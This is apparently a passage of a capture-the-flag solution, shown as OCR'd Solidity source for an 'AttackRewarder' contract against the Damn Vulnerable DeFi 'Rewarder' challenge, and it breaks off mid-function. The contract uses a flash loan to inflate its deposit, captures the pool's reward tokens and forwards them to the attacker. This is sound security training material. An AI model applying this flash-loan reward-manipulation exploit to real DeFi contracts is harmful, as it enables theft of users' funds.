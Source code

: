 ```solidity

interface IRewardToken {
  function transfer(address to, uint256 amount) external returns (bool);
  function balanceOf(address account) external returns (uint256);
}
/**
 * @title AttackRewarder
 */
contract AttackRewarder {

    ILoanerPool flashLoanerPool;
    IRewarderPool rewarderPool;
    IDamnValuableToken token;
    IAccountingToken accToken;
    IRewardToken rewardToken;

    uint256 private amount;

    constructor(address _loaner, address _rewarder, address _accounting, address _reward, address _token) {
        flashLoanerPool = ILoanerPool(_loaner);
        rewarderPool = IRewarderPool(_rewarder);
        token = IDamnValuableToken(_token);
        accToken = IAccountingToken(_accounting);
        rewardToken = IRewardToken(_reward);

        amount = token.balanceOf(address(flashLoanerPool));
    }

    function run(address _attacker) public {

      flashLoanerPool.flashLoan(amount);

      bool result = rewardToken.transfer(_attacker, rewardToken.balanceOf(address(this)));
      require(result, "Rewards not sent to the attacker");
    }

    function receiveFlashLoan(uint256) external {
      require(token.balanceOf(address(flashLoanerPool)) == 0, "Pool should not have any DVT");
      require(token.balanceOf(address(this)) == 1000000 ether, "Not enough DVT tokens");
      require(rewardToken.balanceOf(address(this)) == 0, "We should not have any RWT token");
      require(accToken.balanceOf(address(this)) == 0, "We should not have any rTKN token");

      // approve the rewarder pool
      token.approve(address(rewarderPool), amount);   
      
      // deposit the DVT tokens, receive rTKN (accounting) and RWT (reward) tokens
      rewarderPool.deposit(amount);
      
      require(token.balanceOf(address(this)) == 0, "We haven't deposited all the DVT token");
      require(rewardToken.balanceOf(address(this)) > 0, "We should have received the reward");
      require(accToken.balanceOf(address(this)) == 1000000 ether, "Not enough rTKN tokens");

      // get the DVT tokens back
      rewarderPool.withdraw(amount);

      require(token.balanceOf(address(this)) == 1000000 ether, "Not enough DVT tokens to pay back the loan");
      require(accToken.balanceOf(address(this)) == 0, "We should have withdrawn all the rTNK tokens");
      
      // send back the DVT tokens to the pool
      token.transfer(address(flashLoanerPool), amount);
```